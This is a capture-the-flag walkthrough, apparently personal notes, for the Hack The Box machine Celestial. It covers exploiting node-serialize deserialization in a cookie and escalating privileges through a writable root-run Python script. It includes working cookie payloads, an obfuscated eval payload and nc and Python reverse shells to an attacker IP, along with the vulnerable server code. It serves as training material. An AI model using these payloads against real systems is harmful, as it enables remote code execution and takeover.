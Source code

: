 ## Celestial

https://app.hackthebox.com/machines/Celestial

### User Access

Ports: 10.10.10.85:3000, Node.js Express framework.

JWT Cookie:
```
{
  "username": "Dummy",
  "country": "Idk Probably Somewhere Dumb",
  "city": "Lametown",
  "num": "2",
  "alg": "HS256"
}
```

Changing "num" to "3", we get this error:
```
SyntaxError: Unexpected token {
    at Object.parse (native)
    at Object.exports.unserialize (/home/sun/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/sun/server.js:11:24
    at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/sun/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/sun/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)
    at /home/sun/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/sun/node_modules/express/lib/router/index.js:335:12)
    at next (/home/sun/node_modules/express/lib/router/index.js:275:10)
```

Searching for NodeJS deserialization, we find two blogs:  
[Insecure Deserialization on NodeJS for RCE](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)  
[Node JS Insecure Deserialization](https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e)  

On the last blog, we see how to execute RCE.
```
# Normal request
{ "username": "Aditya", "country": "india", "city": "Delhi" }

# Payload
{"username": "_$$ND_FUNC$$_function (){ return 'hi'; }()" ,"country":"india","city":"Delhi"}
```

Our exploit:
```
# Normal request
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city": "Lametown","num": "2"}

# Payload
{"username": "_$$ND_FUNC$$_function (){ return 'hi'; }()","country": "Idk Probably Somewhere Dumb","city": "Lametown","num": "2"}
```

<br>

We can use this script to generate serialized payloads:
```javascript
var serialize = require('node-serialize');

/* # Testing
x = {
test : function(){ return 'hi'; }
};
*/

// Reverse Shell
x = {
test : function(){
  require('child_process').execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f", function puts(error, stdout, stderr) {});
}
};

console.log("Serialized: \n" + serialize.serialize(x));
```

This is the output:
```
{"test":"_$$ND_FUNC$$_function(){\n  require('child_process').execSync(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f\", function puts(error, stdout, stderr) {});\n}"}
```

BUT, we need to add "()" to the payload for the function execute itself as explained on the first blog.

Final payload:
```
{"username": "_$$ND_FUNC$$_function(){\n  require('child_process').execSync(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f\", function puts(error, stdout, stderr) {});\n }()","country": "Idk Probably Somewhere Dumb","city": "Lametown","num": "2"}
```

On the walkthrough, this payloads works as well:
```
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 1234 >/tmp/f', function(error, stdout, stderr) {console.log(stdout) })","country":"Lameville","city":"Lametown","num":"2"}
```

<br>

#### Extra
You can use [nodejsshell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to generate a more stable reverse shell in node.
```python
python2 nodejsshell.py 10.10.14.5 4444
```

Put the output on cookie and add IIFE brackets () after the function.
```
# Payload
{"rce":"_$$ND_FUNC$$_function (){OUTPUT}()"}

# Cookie
{"username":"_$$ND_FUNC$$_function (){OUTPUT}()","country":"Idk Probably Somewhere Dumb","city": "Lametown","num": "2"}

# Example
{"username":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,53,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()","country":"Idk Probably Somewhere Dumb","city": "Lametown","num": "2"}
```

The root cause is that it was using `eval()` internally for deserialization.
```node
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) { 
     var sum = eval(obj.num + obj.num);
     res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
   }else{
     res.send("An error occurred...invalid username type"); 
   }
}else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("<h1>404</h1>");
});
app.listen(3000);
```

<br>

### Privilege Escalation
Groups:  
`uid=1000(sun)gid=1000(sun)groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)`

Being part of adm group, we can search for logs.

On /var/log/syslog, we see that root is executing a script that we have write permissions.
```
python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py
```

Edit script.py to a reverse shell.
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```
